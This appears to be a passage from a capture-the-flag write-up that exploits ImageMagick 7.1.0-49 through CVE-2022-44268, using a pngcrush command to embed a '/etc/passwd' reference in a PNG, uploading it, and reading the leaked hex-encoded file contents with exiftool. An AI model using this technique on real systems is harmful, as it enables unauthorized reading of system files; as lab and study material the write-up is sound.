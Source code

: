This is `imagemagick` version `7.1.0-49 beta`.

Searching for this on `Exploit-db` we find the following:

![q](2.png)

The software is vulnerable to an `Arbitrary File Read`. The proof of concept can be found here [https://github.com/voidz0r/CVE-2022-44268](https://github.com/voidz0r/CVE-2022-44268).

I tried using the exploit but had a problem with `cargo` so i found this [POC](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC) that uses `pngcrush`.

```bash
$ pngcrush -text a "profile" "/etc/passwd" image.png
  Recompressing IDAT chunks in image.png to pngout.png
   Total length of data found in critical chunks            =     78556
   Best pngcrush method        =   7 (ws 15 fm 0 zl 9 zs 0) =     67736
CPU time decode 0.091934, encode 0.669882, other 0.005451, total 0.779431 sec
```

This generated the file `pngout.png`, let's upload it and get the shrunk version.

Let's download the shrunk version from the website and run the command `identify -verbose 64e********.png` or just use `exiftool` which i find better.

```bash
$ exiftool 64e5c5ea2b844.png                                                                                                                             
ExifTool Version Number         : 12.16                                                                                                                       
File Name                       : 64e5c5ea2b844.png                                                                                                           
Directory                       : .                                                                                                                           
File Size                       : 47 KiB                                                                                                                      
File Modification Date/Time     : 2023:08:23 09:40:10+01:00                                                                                                   
File Access Date/Time           : 2023:08:23 09:41:02+01:00                                                                                                   
File Inode Change Date/Time     : 2023:08:23 09:41:02+01:00                                                                                                   
File Permissions                : rw-r--r--                                                                                                                   
File Type                       : PNG                                                                                                                         
File Type Extension             : png                                                                                                                         
MIME Type                       : image/png     
[...]
Raw Profile Type                : ..    1437.726f6f743a783a303a303a726f6f743a2f726f6f743a2f62696e2f626173680a6461656d.6f6e3a783a313a313a6461656d6f6e3a2f757372
2f7362696e3a2f7573722f7362696e2f.6e6f6c6f67696e0a62696e3a783a323a323a62696e3a2f62696e3a2f7573722f7362696e.2f6e6f6c6f67696e0a7379733a783a333a333a7379733a2f6465
763a2f7573722f736269.6e2f6e6f6c6f67696e0a73796e633a783a343a36353533343a73796e633a2f62696e3a2f.62696e2f73796e630a67616d65733a783a353a36303a67616d65733a2f757372
2f67616d.65733a2f7573722f7362696e2f6e6f6c6f67696e0a6d616e3a783a363a31323a6d616e3a.2f7661722f63616368652f6d616e3a2f7573722f7362696e2f6e6f6c6f67696e0a6c703a.783
a373a373a6c703a2f7661722f73706f6f6c2f6c70643a2f7573722f7362696e2f6e6f.6c6f67696e0a6d61696c3a783a383a383a6d61696c3a2f7661722f6d61696c3a2f757372.2f7362696e2f6e6
f6c6f67696e0a6e6577733a783a393a393a6e6577733a2f7661722f73.706f6f6c2f6e6577733a2f7573722f7362696e2f6e6f6c6f67696e0a757563703a783a31.303a31303a757563703a2f76617
22f73706f6f6c2f757563703a2f7573722f7362696e2f.6e6f6c6f67696e0a70726f78793a783a31333a31333a70726f78793a2f62696e3a2f7573.722f7362696e2f6e6f6c6f67696e0a7777772d6
46174613a783a33333a33333a7777772d.646174613a2f7661722f7777773a2f7573722f7362696e2f6e6f6c6f67696e0a6261636b.75703a783a33343a33343a6261636b75703a2f7661722f62616
```